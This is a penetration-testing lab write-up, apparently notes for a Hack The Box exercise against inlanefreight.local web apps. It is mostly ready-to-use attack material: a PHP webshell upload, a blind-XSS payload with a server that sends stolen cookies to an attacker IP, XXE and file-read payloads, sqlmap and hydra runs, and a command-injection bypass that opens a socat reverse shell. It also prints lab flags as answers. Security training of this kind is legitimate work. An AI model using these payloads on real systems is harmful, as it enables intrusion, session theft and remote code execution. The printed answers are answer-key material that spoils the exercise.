

# Web Enumeration & Exploitation
## Web Application Enumeration
The quickest and most efficient way to get through a bunch of web applications is using a tool such as [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) to take screenshots of each web application.

```shellsession
$ cat ilfreight_subdomains

inlanefreight.local 
blog.inlanefreight.local 
careers.inlanefreight.local 
dev.inlanefreight.local 
gitlab.inlanefreight.local 
ir.inlanefreight.local 
status.inlanefreight.local 
support.inlanefreight.local 
tracking.inlanefreight.local 
vpn.inlanefreight.local
monitoring.inlanefreight.local
$ eyewitness -f ilfreight_subdomains -d ILFREIGHT_subdomain_EyeWitness

################################################################################
#                                  EyeWitness                                  #
################################################################################
#           FortyNorth Security - https://www.fortynorthsecurity.com           #
################################################################################

Starting Web Requests (11 Hosts)
Attempting to screenshot http://inlanefreight.local
Attempting to screenshot http://blog.inlanefreight.local
Attempting to screenshot http://careers.inlanefreight.local
Attempting to screenshot http://dev.inlanefreight.local
Attempting to screenshot http://gitlab.inlanefreight.local
Attempting to screenshot http://ir.inlanefreight.local
Attempting to screenshot http://status.inlanefreight.local
Attempting to screenshot http://support.inlanefreight.local
Attempting to screenshot http://tracking.inlanefreight.local
Attempting to screenshot http://vpn.inlanefreight.local
Attempting to screenshot http://monitoring.inlanefreight.local
Finished in 34.79010033607483 seconds

[*] Done! Report written in the /home/tester/INLANEFREIGHT-IPT/Evidence/Scans/Web/ILFREIGHT_subdomain_EyeWitness folder!
Would you like to open the report now? [Y/n]
```



## Dealing with The Unexpected
Following this [post](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f), let's test for local file read using XMLHttpRequest (XHR) objects and also consulting this excellent post on local file read via XSS in dynamically generated PDFS. We can use this payload to test for file read, first trying for the /etc/passwd file, which is world-readable and should confirm the vulnerability's existence.

```javascript
    <script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)};
    x.open("GET","file:///etc/passwd");
    x.send();
    </script>
```

## Questions
1. Use the IDOR vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}). **Answer: HTB{8f40ecf17f681612246fa5728c159e46}**
   - IDOR at http://careers.inlanefreight.local/profile?id=4
2. Exploit the HTTP verb tampering vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}). **Answer: HTB{57c7f6d939eeda90aa1488b15617b9fa}**
   - Found the hidden upload page while fuzzing:
        ```shellsession
        $ gobuster dir -u http://dev.inlanefreight.local -w /usr/share/wordlists/dirb/common.txt -x .php -t 300
        <SNIP>
        /upload.php           (Status: 200) [Size: 14]
        <SNIP>
        ```
   - Change the HTTP method to `TRACK` reveals the hidden HTTP header, modify it to 127.0.0.1 give us access to the upload page:
        ```
        TRACK /upload.php HTTP/1.1
        Host: dev.inlanefreight.local
        ```
        ```
        HTTP/1.1 200 OK
        X-Custom-IP-Authorization: 172.18.0.1
        ```
        ```
        TRACK /upload.php HTTP/1.1
        Host: dev.inlanefreight.local
        X-Custom-IP-Authorization: 127.0.0.1
        ```
        ```
        HTTP/1.1 200 OK
        Date: Mon, 20 Jul 2026 16:33:46 GMT
        X-Custom-IP-Authorization: 172.18.0.1
        Content-Length: 2934
        Content-Type: text/html; charset=UTF-8

        <SNIP>
        <form method="POST" action="" enctype="multipart/form-data">
            <div class="form-row">
            <input type="file" id="BtnBrowseHidden" required class="form-control-file" name="file" accept=".jpg,.png,.gif" style="display: none;" />
                <label for="BtnBrowseHidden"  class="btn btn-light" name="submit" id="LblBrowse">
                    Browse
                </label>
                &nbsp&nbsp&nbsp
            <label>
            <button type="submit" name="submit" class="btn btn-primary">Submit</button> 
            </label>
        </div>
            </form>
        <SNIP>
        ```
   - Upload a webshell and find the flag:
        ```
        POST /upload.php HTTP/1.1
        Host: dev.inlanefreight.local
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: http://dev.inlanefreight.local/upload.php
        Content-Type: multipart/form-data; boundary=----geckoformboundary9cb3dd89d3f55763431aa507b93158b3
        Content-Length: 348
        Origin: http://dev.inlanefreight.local
        DNT: 1
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
        Priority: u=0, i

        ------geckoformboundary9cb3dd89d3f55763431aa507b93158b3
        Content-Disposition: form-data; name="file"; filename="cmd.php"
        Content-Type: image/png

        <?php system($_GET['cmd']);?>

        ------geckoformboundary9cb3dd89d3f55763431aa507b93158b3
        Content-Disposition: form-data; name="submit"


        ------geckoformboundary9cb3dd89d3f55763431aa507b93158b3--
        ```
        ```
        HTTP/1.1 200 OK
        <SNIP>

        File uploaded /uploads/cmd.php
        ```
        ```
        GET /uploads/cmd.php?cmd=find%20/%20-name%20'*flag*' HTTP/1.1
        Host: dev.inlanefreight.local
        ```
        ```
        HTTP/1.1 200 OK

        <SNIP>
        /var/www/html/flag.txt
        <SNIP>
        ```
        ```
        GET /uploads/cmd.php?cmd=cat%20/var/www/html/flag.txt HTTP/1.1
        Host: dev.inlanefreight.local
        ```
        ```
        HTTP/1.1 200 OK
        <SNIP>

        HTB{57c7f6d939eeda90aa1488b15617b9fa}
        ```
3. Exploit the WordPress instance and find a flag in the web root. Submit the flag value as your answer (flag format: HTB{}). **Answer:**
   - Enumerate wordpress for vulnerable plugins:
        ```shellsession
        $ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

        <SNIP>

        [+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
        | Found By: Rss Generator (Passive Detection)
        |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
        |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

        [+] WordPress theme in use: cbusiness-investment
        | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
        | Latest Version: 0.7 (up to date)
        | Last Updated: 2022-04-25T00:00:00.000Z
        | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
        | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
        | Style Name: CBusiness Investment
        | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
        | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
        | Author: Themescave
        | Author URI: http://www.themescave.com/
        |
        | Found By: Css Style In Homepage (Passive Detection)
        | Confirmed By: Css Style In 404 Page (Passive Detection)
        |
        | Version: 0.7 (80% confidence)
        | Found By: Style (Passive Detection)
        |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

        [+] Enumerating All Plugins (via Passive Methods)
        [+] Checking Plugin Versions (via Passive and Aggressive Methods)

        [i] Plugin(s) Identified:

        [+] b2i-investor-tools
        | Location: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/
        | Latest Version: 1.0.5 (up to date)
        | Last Updated: 2022-06-17T15:21:00.000Z
        |
        | Found By: Urls In Homepage (Passive Detection)
        | Confirmed By: Urls In 404 Page (Passive Detection)
        |
        | Version: 1.0.5 (100% confidence)
        | Found By: Query Parameter (Passive Detection)
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/style.css?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/export.css?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/wb_script.js?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amcharts.js?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/serial.js?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amstock.js?ver=1.0.5
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/export.js?ver=1.0.5
        | Confirmed By: Readme - Stable Tag (Aggressive Detection)
        |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt

        [+] mail-masta
        | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
        | Latest Version: 1.0 (up to date)
        | Last Updated: 2014-09-19T07:52:00.000Z
        |
        | Found By: Urls In Homepage (Passive Detection)
        | Confirmed By: Urls In 404 Page (Passive Detection)
        |
        | Version: 1.0 (80% confidence)
        | Found By: Readme - Stable Tag (Aggressive Detection)
        |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

        [!] No WPScan API Token given, as a result vulnerability data has not been output.
        [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

        [+] Finished: Mon Jun 20 23:07:09 2022
        [+] Requests Done: 35
        [+] Cached Requests: 7
        [+] Data Sent: 9.187 KB
        [+] Data Received: 164.854 KB
        [+] Memory used: 224.816 M
        ```
     - The `Mail Masta` plugin is vulnerable to LFI, leverage this to read the flag at web root:
        ```shellsession
        $ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/flag.txt
        HTB{e7134abea7438e937b87608eab0d979c}
        ```
4. Enumerate the "status" database and retrieve the password for the "Flag" user. Submit the value as your answer. **Answer: 1fbea4df249ac4f4881a5da387eb297cf**
   - Run sqlmap on this request:
        ```shellsession
        $ cat req 
        POST / HTTP/1.1
        Host: status.inlanefreight.local
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: http://status.inlanefreight.local/
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 14
        Origin: http://status.inlanefreight.local
        DNT: 1
        Connection: keep-alive
        Cookie: PHPSESSID=hcvepd6hn7br3ldn3efjrsh4a9
        Upgrade-Insecure-Requests: 1
        Priority: u=0, i

        searchitem=123*
        $ sqlmap -r req --level 5 --risk 3 --batch -D status --dump --threads 10
        <SNIP>
        Database: status
        Table: users
        [2 entries]
        +----+-----------------------------------+----------+
        | id | password                          | username |
        +----+-----------------------------------+----------+
        | 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
        | 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
        +----+-----------------------------------+----------+
        <SNIP>
        ```
1. Steal an admin's session cookie and gain access to the support ticketing queue. Submit the flag value for the "John" user as your answer. **Answer: HTB{1nS3cuR3_c00k135}**
   - Use blind XSS to exfiltrate the admin cookie:
        ```
        $ cat index.php 
        <?php
        if (isset($_GET['c'])) {
            $list = explode(";", $_GET['c']);
            foreach ($list as $key => $value) {
                $cookie = urldecode($value);
                $file = fopen("cookies.txt", "a+");
                fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
                fclose($file);
            }
        }
        print "hello $_SERVER['REMOTE_ADDR']";
        ?>
        $ cat script.js 
        new Image().src='http://10.10.15.142:9200/index.php?c='+document.cookie
        $ sudo php -S 0.0.0.0:9200
        ```
   - Post the XSS payload and capture the cookie, use it to access http://support.inlanefreight.local/dashboard.php and read the flag:
        ```
        GET /ticket.php?Name=123&Email=123&Phone+Number=123&Product=123&os=win&browser=firefox&message=%22%3E%3Cscript+src%3D%27http%3A%2F%2F10.10.15.142%3A9200%2Fscript.js%27%3E%3C%2Fscript%3E&ttype=feature HTTP/1.1
        Host: support.inlanefreight.local
        ```
        ```
        [Tue Jul 21 06:44:58 2026] 10.129.114.176:50582 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
        ```
        ```shellsession
        $ curl -s  http://support.inlanefreight.local/dashboard.php -H "Cookie: session=fcfaf93ab169bc943b92109f0a845d99" | grep HTB
                    <td>HTB{1nS3cuR3_c00k135}</td>
        ```
2. Use the SSRF to Local File Read vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}). **Answer: HTB{49f0bad299687c62334182178bfd75d8}**
   - View the response to this request in the browser:
        ```
        POST / HTTP/1.1
        Host: tracking.inlanefreight.local
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: http://tracking.inlanefreight.local/
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 227
        Origin: http://tracking.inlanefreight.local
        DNT: 1
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
        Priority: u=0, i

        handle=%3Cscript%3Ex%3Dnew+XMLHttpRequest%3Bx.onload%3Dfunction%28%29%7Bdocument.write%28this.responseText%29%7D%3Bx.open%28%22GET%22%2C%22file%3A%2F%2F%2Froot%2Fflag.txt%22%29%3B+x.send%28%29%3B%3C%2Fscript%3E&insert=Track+Now
        ```
3. Register an account and log in to the Gitlab instance. Submit the flag value (flag format : HTB{}). **Answer: HTB{32596e8376077c3ef8d5cf52f15279ba}**
   - Register an account and navigate to http://gitlab.inlanefreight.local/explore to read the flag
4. Use the XXE vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}). **Answer:**
   - Login to http://shopdev2.inlanefreight.local with default credential `admin`:`admin`
   - Exploit the XXE vulnerability to read the flag:
        ```
        POST /checkout.php HTTP/1.1
        Host: shopdev2.inlanefreight.local
        Content-Type: text/plain;charset=UTF-8
        Content-Length: 226
        Cookie: PHPSESSID=jpgt9mjnjaboq9u10c43pap4at

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE userid [
        <!ENTITY xxetest SYSTEM "file:///flag.txt">
        ]>
        <root>
            <subtotal>
                undefined
            </subtotal>
            <userid>
                &xxetest;
            </userid>
        </root>
        ```
5.  Use the command injection vulnerability to find a flag in the web root. Submit the flag value as your answer (flag format: HTB{}). **Answer: HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}**
   - Brute-force the admin credential for monitoring.inlanefreight.local → `admin`:`12qwaszx`:
        ```shellsession
        $ hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/darkweb2017_top-100.txt monitoring.inlanefreight.local http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Credentials!"
        Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-21 11:40:05
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 99 login tries (l:1/p:99), ~7 tries per task
        [DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=^USER^&password=^PASS^:Invalid Credentials!
        [80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-21 11:40:11
        ```
   - The `connection_test` command is calling the `ping.php` endpoint, which is vulnerable to a command injection vulnerability, leak the `ping.php`:
        ```
        GET /ping.php?ip=127.0.0.1%0ac'a't${IFS}ping.php HTTP/1.1
        Host: monitoring.inlanefreight.local
        ```
        ```
        HTTP/1.1 200 OK
        Date: Tue, 21 Jul 2026 15:49:53 GMT
        Server: Apache/2.4.41 (Ubuntu)
        Vary: Accept-Encoding
        Content-Length: 1221
        Keep-Alive: timeout=5, max=100
        Connection: Keep-Alive
        Content-Type: text/html; charset=UTF-8

        PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
        64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.044 ms

        --- 127.0.0.1 ping statistics ---
        1 packets transmitted, 1 received, 0% packet loss, time 0ms
        rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
        <?php
            ini_set('display_errors', 1);
            ini_set('display_startup_errors', 1);
            error_reporting(E_ALL);
            $output = '';

            function filter($str)
            {
            $operators = ['&', '|', ';', '\\', '/', ' '];
            foreach ($operators as $operator) {
                if (strpos($str, $operator)) {
                return true;
                }
            }
            $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
            foreach ($words as $word) {
                if (strpos($str, $word) !== false) {
                return true;
                }
            }

            return false;
            }

            if (isset($_GET['ip'])) {
            $ip = $_GET['ip'];
            if (filter($ip)) {
                $output = "Invalid input";
            } else {
                $cmd = "bash -c 'ping -c 1 " . $ip . "'";
                $output = shell_exec($cmd);
            }
            }
        ?>
        <?php
            echo $output;
        ?>
        ```
   - The blacklist does not contain `socat`, we can use it to obtain a reverse shell and read the flag:
        ```
        GET /ping.php?ip=127.0.0.1%0aso'c'at${IFS}TCP:10.10.15.142:9999${IFS}EXEC:bash HTTP/1.1
        Host: monitoring.inlanefreight.local
        ```
        ```shellsession
        $ nc -nlvp 9999
        Listening on 0.0.0.0 9999
        Connection received on 10.129.115.184 48442


        whoami
        webdev
        ls
        00112233_flag.txt
        css
        img
        index.php
        js
        login.php
        ping.php
        cat 00112233_flag.txt
        HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}
        ```